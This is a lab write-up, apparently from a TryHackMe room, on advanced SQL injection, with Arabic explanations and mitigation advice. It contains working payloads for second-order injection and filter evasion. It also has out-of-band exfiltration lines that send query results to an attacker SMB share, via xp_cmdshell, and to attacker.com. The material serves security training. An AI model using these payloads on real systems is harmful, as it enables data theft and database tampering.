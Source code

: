 # Advanced SQL Injection

<details>
  <summary>Introduction</summary>

  > ﻿Throughout this room, you will gain a comprehensive understanding of the following key concepts:
- >> Second-order SQL injection 
- >> Filter evasion
- >> Out-of-band SQL Injection
- >> Automation techniques
- >> Mitigation measures

- > **``First``** scan
  >
  > ```
  > nmap -A -T4 -p 3306,3389,445,139,135 10.10.108.30
  > ```
  >

```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-01 14:35 EDT
Stats: 0:00:06 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 20.00% done; ETC: 14:36 (0:00:24 remaining)
Nmap scan report for 10.10.108.30
Host is up (0.11s latency).

PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
3306/tcp open  mysql         MariaDB 10.3.23 or earlier (unauthorized)
3389/tcp open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2025-05-01T18:36:10+00:00; +1s from scanner time.
| ssl-cert: Subject: commonName=SQLi
| Not valid before: 2025-04-30T18:34:14
|_Not valid after:  2025-10-30T18:34:14
| rdp-ntlm-info: 
|   Target_Name: SQLI
|   NetBIOS_Domain_Name: SQLI
|   NetBIOS_Computer_Name: SQLI
|   DNS_Domain_Name: SQLi
|   DNS_Computer_Name: SQLi
|   Product_Version: 10.0.17763
|_  System_Time: 2025-05-01T18:36:00+00:00
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Microsoft Windows Server 2016 (96%), Microsoft Windows Server 2019 (96%), Microsoft Windows 10 (93%), Microsoft Windows 10 1709 - 21H2 (93%), Microsoft Windows 10 21H1 (93%), Microsoft Windows Server 2012 (93%), Microsoft Windows 10 1903 (92%), Windows Server 2019 (92%), Microsoft Windows Server 2022 (92%), Microsoft Windows Vista SP1 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-05-01T18:36:02
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

TRACEROUTE (using port 443/tcp)
HOP RTT       ADDRESS
1   140.13 ms 10.8.0.1
2   127.52 ms 10.10.108.30

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 41.57 seconds

```

- > mysql run on **``3306``**


</details>










--------------------------------------------------------------------------------------------------------------------------------------------------










<details>
  <summary>Recap</summary>

![image](https://github.com/user-attachments/assets/c6ced0d7-d8d3-4b5e-8aea-d80d42831e45)

  
</details>

--------------------------------------------------------------------------------------------------------------------------------------------------

<details>
  <summary>Second-Order SQL Injection</summary>

<details>
  <summary>GPT--explain</summary>
  
# Second-Order SQL Injection

Second-Order SQL Injection (SQLi) هو نوع من أنواع هجمات SQL التي لا يتم تنفيذها في لحظة إدخال البيانات كما هو الحال مع SQLi التقليدي. بدلاً من ذلك، يتم إدخال كود خبيث يُخزن بشكل طبيعي في قاعدة البيانات، ثم يُنفذ لاحقًا عند استخدام هذه البيانات في استعلام SQL جديد بدون حماية كافية.

---

## 🧠 مثال توضيحي

### 💾 1. صفحة `add.php` (إدخال البيانات)

المهاجم يدخل البيانات التالية:

- `SSN`: `12345'; UPDATE books SET book_name = 'Hacked'; --`
- `book_name`: `Normal Book`
- `author`: `John Doe`

الكود يُخزن كما هو داخل قاعدة البيانات دون تنفيذ أي أوامر SQL، لأنه لا يُستخدم في استعلام أثناء الإدخال.

---

### 🔁 2. صفحة `update.php` (استخدام البيانات لاحقًا)

الكود التالي يستخدم البيانات المخزنة:

```php
$update_sql = "UPDATE books SET book_name = '$new_book_name', author = '$new_author' WHERE ssn = '$ssn'; INSERT INTO logs (page) VALUES ('update.php');";
```

إذا كانت قيمة `$ssn` هي القيمة التي أدخلها المهاجم سابقًا، فإن هذا الاستعلام يصبح استعلامًا مركبًا يؤدي إلى تنفيذ الكود الخبيث.

### 💣 النتيجة

- يتم تنفيذ الأمر الثاني داخل الاستعلام: `UPDATE books SET book_name = 'Hacked';`
- أسماء كل الكتب في الجدول قد تتغير إلى "Hacked".

---

## ⚠️ لماذا هذا النوع خطير؟

- يمر من عمليات الفلترة التقليدية مثل `real_escape_string()`.
- لا يسبب مشاكل ظاهرة وقت الإدخال، مما يجعله صعب الاكتشاف.
- يتم تنفيذه في وقت لاحق في مكان مختلف في الكود.

---

## 🔐 كيف نحمي التطبيق؟

### ✅ استخدام Prepared Statements (الاستعلامات المجهزة)

```php
$stmt = $conn->prepare("UPDATE books SET book_name = ?, author = ? WHERE ssn = ?");
$stmt->bind_param("sss", $book_name, $author, $ssn);
$stmt->execute();
```

### ✅ فلترة البيانات عند الإدخال **وعند الاستخدام**

- لا تكتفِ بالتحقق عند الإدخال فقط.
- تحقق من صحة وسلامة البيانات قبل استخدامها في أي استعلام.

### ❌ تجنب استخدام `multi_query()` إن أمكن

- لأنه يسمح بتنفيذ أكثر من أمر SQL في استعلام واحد، مما يسهل تنفيذ الأكواد الخبيثة.

---

## 📊 تسلسل الهجوم (وصف توضيحي)

```
[User Input] --> (add.php) --> [Stored in DB] --> (update.php uses it unsafely) --> [SQL Injection Triggered]
```

---

Second-Order SQLi مثال قوي على أن الأمان لا يجب أن يعتمد فقط على الإدخال النظيف، بل أيضًا على كيفية استخدام البيانات لاحقًا.


</details>


- > first we will add new book on this ``http://10.10.84.232/second/add.php`` like this:
  > 
  > ![image](https://github.com/user-attachments/assets/4088c1e0-64fc-4dca-b5cf-cddffd17176c)
  > 
  > we make book ``SSN`` content ``12345'; UPDATE books SET book_name = 'Hacked'; --``
  > 
  > it will not excuted now
  >
  > now we open **``http://10.10.84.232/second/update.php``** and update content of this book
  >
  > ![image](https://github.com/user-attachments/assets/b03e0b64-42f6-405d-812d-5fb3be5888cf)
  >
  > if we go back to ``add.php`` will found all books name became **``hacked``**
  >
  > ![image](https://github.com/user-attachments/assets/6594fef7-009d-4cee-a91f-b68c82ce188b)
  >
  > we can also drop tables or any other sql queryies 




</details>

--------------------------------------------------------------------------------------------------------------------------------------------------


<details>
  <summary>Filter Evasion Techniques</summary>

<details>
  <summary>GPT--explain</summary>

# SQL Injection: Bypassing Weak Filters

## 🎯 الفكرة الأساسية
بعض المطورين يحاولون منع هجمات SQL Injection عن طريق فلترة كلمات خطيرة مثل `OR`, `AND`, `UNION`, `SELECT` من مدخلات المستخدم. لكن هذه الطريقة غير كافية ويمكن تجاوزها باستخدام تقنيات ترميز مختلفة.

---

## 🧱 مثال على كود ضعيف للحماية:

```php
$special_chars = array("OR", "or", "AND", "and" , "UNION", "SELECT");
$book_name = str_replace($special_chars, '', $book_name);
```

الكود يقوم بإزالة الكلمات المحظورة من المدخلات. فإذا أدخل المستخدم:
```
admin' OR 1=1
```
فإنها تتحول إلى:
```
admin' 1=1
```
وبالتالي قد يفشل الهجوم. لكن... 👇

---

## 💥 كيف يتجاوز الهاكر الفلترة؟

### ✅ 1. URL Encoding (ترميز الروابط)

الهجوم:
```
admin' OR 1=1 --
```
يُكتب كالتالي:
```
admin%27%20OR%201%3D1%20--+
```
الفلتر لا يتعرف على `%27` كعلامة اقتباس `'`، لكنها تُفك عند التنفيذ.

---

### ✅ 2. استخدام `||` بدل `OR`

في MySQL:
```sql
1' || 1=1 --+
```
`||` تعمل كبديل لـ `OR`. الفلتر لا يراها خطيرة لكنها تؤدي نفس الغرض.

---

### ✅ 3. Hex Encoding (الترميز بالـ Hex)

كلمة `admin` يمكن كتابتها كالتالي:
```sql
0x61646d696e
```
إذا حاول الفلتر منع كلمة "admin"، هذا الترميز سيتجاوز الحظر.

---

### ✅ 4. Unicode Encoding (الترميز الموحد)

مثال:
```
\u0061\u0064\u006d\u0069\u006e  →  admin
```
بعض البيئات تقوم بتفسير الترميز وتحويله للنص الأصلي تلقائيًا.

---

## 👨‍💻 تطبيقات واقعية معرضة للخطر

- مواقع البحث في الكتب أو المنتجات.
- صفحات تسجيل الدخول واسترجاع كلمات المرور.
- أي نموذج إدخال يعتمد على كلمات يتم فلترتها سطحيًا.

---

## 🛡️ كيف تحمي تطبيقك كمطور؟

- ✅ **استخدم Prepared Statements (استعلامات مجهزة مسبقًا):**
  - تمنع تنفيذ الكود الخبيث مهما كانت طريقة ترميزه.

- ❌ **لا تعتمد على `str_replace` أو Regex فقط:**
  - الترميز قد يخدع هذه الطرق بسهولة.

- 🧠 **افهم أن الترميز لا يغير نية المدخلات:**
  - قاعدة البيانات ستفك الترميز وتنفذ الأوامر.

---

الحماية الحقيقية تأتي من تصميم استعلاماتك بشكل آمن، وليس من مجرد إزالة كلمات معينة من إدخال المستخدم.


  
</details>


- > firts open ``http://10.10.84.232/encoding/``
  >
  > try to use for exmaple ``' or 1=1; --`` this will appear
  >
  > ![image](https://github.com/user-attachments/assets/891418fc-62fd-415a-b15a-bdb20dc11faf)
  >
  > so now will go to burpsuit and send request to ``repeater``
  >
  > and select the input and do url encode to it by click ``ctrl`` **+** ``U``
  >
  > ![image](https://github.com/user-attachments/assets/181147f7-3764-438a-9c65-9fab015278a7)
  >
  > ```
  > http://10.10.84.232/encoding/search_books.php?book_name=intro+to+php%27+||+1%3d1+--+
  > ```




</details>

--------------------------------------------------------------------------------------------------------------------------------------------------


<details>
  <summary>Filter Evasion Techniques (continued)</summary>

<details>
   <summary>GPT--EXPLAN</summary>

# 💣 No-Quote & No-Space SQL Injection

## 🔍 أولًا: يعني إيه No-Quote SQL Injection؟

دي تقنية بنستخدمها لما السيرفر يمنع علامات الاقتباس `'` أو `"`. يعني أي حاجة فيها `' OR '1'='1` مش هتشتغل، لأن السيرفر بيعمل escape لها أو بيحذفها.

---

## ✅ إزاي نعدي الفلتر ده؟

### 1. استخدام الأرقام بدل النصوص:
```sql
... WHERE id = 1 OR 1=1 --
```
✅ الأرقام لا تحتاج علامات اقتباس، فتعدي بسهولة.

### 2. استخدام التعليقات لتعطيل باقي الاستعلام:
```sql
admin--
```
✅ أي شيء بعد `--` لا يُنفذ.

### 3. بناء كلمات باستخدام دوال SQL:
```sql
CONCAT(0x61, 0x64, 0x6D, 0x69, 0x6E) = "admin"
```
✅ تجاوز لكلمة "admin" بدون كتابتها مباشرة.

---

## 🚫 No-Space SQL Injection (المسافات ممنوعة)

بعض الفلاتر تمنع المسافات كإجراء أمني إضافي.

### ✅ كيف نتجاوز منع المسافات؟

#### 1. استخدام تعليقات مكان المسافات:
```sql
SELECT/**/username/**/FROM/**/users/**/WHERE/**/1=1
```
✅ `/**/` تُعامل كمسافة من قِبل المحرك SQL.

#### 2. استخدام ترميزات للمسافات:

| Character | Meaning               |
|-----------|------------------------|
| `%09`     | Tab                   |
| `%0A`     | Line Feed (New Line) |
| `%0D`     | Carriage Return      |
| `%0C`     | Form Feed            |
| `%A0`     | Non-breaking Space   |

### 💡 مثال عملي:

رابط:
```arduino
http://10.10.84.232/space/search_users.php?username=?
```

الكود في الخلفية:
```php
$special_chars = array(" ", "AND", "and", "or", "OR" , "UNION", "SELECT");
$username = str_replace($special_chars, '', $username);
```

#### ❌ Payload فاشل:
```vbnet
1' OR 1=1 --
```

#### ✅ Payload ناجح:
```matlab
1'%0A||%0A1=1%0A--%27+
```

> `%0A` = سطر جديد، `||` = بديل `OR`، `%27` = `'`, `--` = تعليق

---

## 🧠 الخلاصة: (تلخيص تقنيات التجاوز)

| السيناريو                     | الحل                                                   |
|------------------------------|--------------------------------------------------------|
| كلمات محجوبة (SELECT...)     | `SElEcT`, `SE/**/LECT`, استخدام `CHAR()` أو `CONCAT()` |
| المسافات ممنوعة             | استخدم `%09`, `%0A`, `/**/`, `+`, `\t`, `\n`           |
| Quotes ممنوعة               | استخدم أرقام، دوال نصوص، أو بدون Quotes               |
| `AND` / `OR` ممنوعة         | استخدم `&&`, `` ` ``, أو `||`                          |
| ترميز UTF أو Hex            | `CHAR(0x41)`, `CONCAT(0x61,0x64,0x6D)`                  |

---

## 🧪 نصيحة ميدانية:

- ✅ لازم تجرب، تفشل، وتحاول تاني.
- ✅ مفيش فلتر أو WAF بيقدر يمنع كل الطرق.
- ✅ كل بيئة ليها سلوك مختلف، لازم تفكر زي مخترق ذكي.

> الحماية الذكية = استعلامات مجهزة مسبقًا + فهم عميق للثغرات.


  
</details>


- > **``10.10.84.232/space/search_users.php?username=attacker``**



</details>

--------------------------------------------------------------------------------------------------------------------------------------------------



<details>
  <summary>Out-of-band SQL Injection</summary>

<details>
  <summary>GPT--explain</summary>

## 🎯 يعني إيه OOB SQL Injection؟

الـ SQL Injection العادي (In-band) هو لما تبعت كود خبيث في الـ input (زي حقل بحث أو login)، والنتيجة بترجعلك في نفس الصفحة. لكن في بعض الحالات، السيرفر بيمنع الرد المباشر أو بيكون فيه جدار ناري (Firewall) أو IDS بيوقف أي رد غير طبيعي.

⬅️ هنا بييجي دور **Out-of-Band SQLi (OOB SQLi)**:
هو ببساطة إنك تبعت الكود الخبيث، والبيانات ترجعلك من طريق مختلف (زي DNS أو HTTP أو SMB).

---

## ⚙️ إزاي بيشتغل OOB SQL Injection؟

أنت بتقول لقاعدة البيانات: "مش لازم ترد عليا هنا… ابعتي البيانات دي على عنوان تاني أنا بتحكم فيه."

---

## ✅ ليه نستخدم OOB؟

* لما السيرفر ما بيرجعش أي بيانات مباشرة أو الرد متشفر.
* لما فيه WAF/IDS بيراقب ويمنع استجابات غير طبيعية.
* لما السيرفر ورا جدار ناري ومفيش اتصال مباشر بينك وبينه.

---

## 💡 أشهر الطرق المستخدمة حسب نوع قاعدة البيانات:

### 🔸 MySQL / MariaDB:

```sql
SELECT secret_data FROM users 
INTO OUTFILE '\\\\ATTACKBOX_IP\\logs\\out.txt';
```

* يكتب النتيجة في ملف على السيرفر.
* يمكن الكتابة على SMB Share خارجي.

### 🔸 MSSQL:

```sql
EXEC xp_cmdshell 'bcp "SELECT credit_card FROM users" queryout "\\\\10.10.58.187\\logs\\cards.txt" -c -T';
```

* يستخدم أوامر النظام عبر xp\_cmdshell.

### 🔸 Oracle:

```sql
BEGIN
  UTL_HTTP.BEGIN_REQUEST('http://attacker.com?data=' || secret_data);
END;
```

* يستخدم UTL\_HTTP أو UTL\_FILE لإرسال البيانات.

---

## 🔍 طرق النقل المختلفة:

1. **SMB Exfiltration**

   * السيرفر يكتب ملف على SMB Share بتاعك.

2. **HTTP Requests**

   * لو قاعدة البيانات تدعم إرسال HTTP (زي Oracle).

3. **DNS Exfiltration**

   * ترسل البيانات مشفرة كـ DNS query. يتطلب DNS Server خاص بيك.

---

## 🧪 سيناريو عملي من TryHackMe (مثال SMB OOB):

### 🧱 الوضع:

رابط فيه SQLi:

```
http://MACHINE_IP/oob/search_visitor.php?visitor_name=Tim
```

الكود في الخلفية:

```php
$sql = "SELECT * FROM visitor WHERE name = '$visitor_name'";
```

### 🎯 الهدف:

نخرج بيانات قاعدة البيانات (زي إصدارها) باستخدام SMB.

### 🚀 الخطوات:

1. **شغل SMB Server على AttackBox**

```bash
cd /opt/impacket/examples
python3.9 smbserver.py -smb2support logs /tmp
```

2. **جهّز البايلود:**

```sql
1'; SELECT @@version INTO OUTFILE '\\\\ATTACKBOX_IP\\logs\\out.txt'; --
```
> ``ATTACKBOX_IP`` is tun0 IP



3. **ملاحظة مهمة:**
   في MySQL فيه متغير `secure_file_priv`:

* لو متعيّن على فولدر → مش هتقدر تكتب غير فيه.
* لو فاضي → تقدر تكتب في أي مكان.

أماكن بديلة: `/var/lib/mysql-files/` أو `/tmp/`

4. **عرض الملف على SMB:**

```bash
smbclient //ATTACKBOX_IP/logs -U guest -N
ls
```

---

## ✅ خلاصة:

* OOB SQLi = تبعت كود خبيث والداتا ترجعلك من قناة تانية (DNS, HTTP, SMB).
* مفيد لما يكون السيرفر مقفول أو فيه WAF.
* لازم تجهز سيرفر خارجي تستقبل عليه البيانات.


</details>


- > first ``lcate`` **smbserver.py**
  >
  > ```
  > locate smbserver.py
  > ```
  >
  > ```
  > /usr/lib/python3/dist-packages/impacket/smbserver.py
  > /usr/lib/python3/dist-packages/scapy/layers/smbserver.py
  > /usr/share/doc/python3-impacket/examples/smbserver.py
  > ```
  > after this lesten using this
  >
  > ```
  > python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support -comment "My Logs Server" -debug logs /tmp
  > ```
  >
  > and open
  >
  > ```
  > http://10.10.118.35/oob/search_visitor.php?visitor_name=1%27;%20SELECT%20@@version%20INTO%20OUTFILE%20%27\\\\10.8.47.102\\logs\\out.txt%27;%20--
  > ```
  >
  > now if we go to **``/tmp/``** will find
  >
  > ```
  > 
  > MozillaUpdateLock-6F44D7866C515FB4
  > out.txt
  > snap-private-tmp
  > ssh-hANM0kFepfUI
  > systemd-private-e6b60fac0cdb4058be212246d60424e0-apache2.service-y0ADPx
  > systemd-private-e6b60fac0cdb4058be212246d60424e0-colord.service-U9islR
  > systemd-private-e6b60fac0cdb4058be212246d60424e0-fwupd.service-FVxt1L
  > ```
  >
  > ```
  > cat out.txt
  > ```
  >
  > ```
  > 10.4.24-MariaDB
  > ```
  >
  > done 😝
  >
  > now to know  @@basedir
  >
  > ```
  > http://10.10.118.35/oob/search_visitor.php?visitor_name=1%27;%20SELECT%20@@basedir%20INTO%20OUTFILE%20%27\\\\10.8.47.102\\logs\\out1.txt%27;%20--
  > ```
  >
  > if we open ``/tmp/`` will found ``out1.txt``
  >
  > ```
  > cat out1.txt
  > ```
  >
  > ```
  > C:/xampp/mysql
  > ```
  > 


</details>

--------------------------------------------------------------------------------------------------------------------------------------------------



<details>
  <summary>Other Techniques</summary>

<details>
   <summary>GPT--explain</summary>
  
</details>

</details>

--------------------------------------------------------------------------------------------------------------------------------------------------




<details>
  <summary>Introduction</summary>
</details>

--------------------------------------------------------------------------------------------------------------------------------------------------




<details>
  <summary>Introduction</summary>
</details>

--------------------------------------------------------------------------------------------------------------------------------------------------





